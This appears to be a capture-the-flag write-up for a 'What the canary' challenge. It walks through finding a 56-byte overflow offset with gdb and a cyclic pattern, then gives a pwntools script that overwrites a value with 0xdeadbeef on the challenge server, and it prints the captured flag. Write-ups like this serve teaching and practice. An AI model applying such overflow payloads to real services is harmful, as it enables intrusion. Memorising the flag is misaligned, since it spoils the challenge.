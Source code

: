 +++
title = 'What the canary'
date = '2024-09-05'
authors = ["Achintya J"]
+++



This provides us with a binary and the source code for a vulnerable program (hence the name vuln, duh). Now we'll open the file using `gdb`, note that I am using `gdb-peda`and you might be using something else, so adapt accordingly

		gdb -q ./vuln
		checksec

running `checksec` we can see that even though the challenge talks about canaries, there aren't any canaries! If we run the program (just type `r`) we can see that it expects us to enter something.

Entering a random string we get this sort of a message,

		code == 0x0
		code != 0xdeadbeef :(
		Well, that was unexpected...

Well that means, we want the code to be `0xdeadbeef`. The first thing we'll need to do is find out what offset overwrites this value. So, head over to [this](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) link to generate a random string.

Entering the 100 byte string: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A", we get this

		code == 0x4130634139624138
		code != 0xdeadbeef :(
		Well, that was unexpected...

So, we've written something... what is that? If we convert that from hex, we can see that its "A0cA9bA8". This string is not present anywhere in our input! However, its reverse "8Ab9Ac0A" is at the `56th` offset. 

What this means is, if we enter 56 bytes, then the next 8 bytes will overwrite this address. This simple script can therefore be used to achieve the flag.

		from pwn import *
		context.binary = binary = ELF("./vuln")
		context.log_level = "critical"
		payload = flat([
			b"A"*56,
			p32(0xdeadbeef) # simply enter the exact address, it will handle the endianess in its default values
			])
		p = remote('10.21.232.38', 7001)
		p.sendline(payload)
		p.interactive()


flag: `iitmCTF{N0-C@n@r!35-r3Qu!r3|)}`
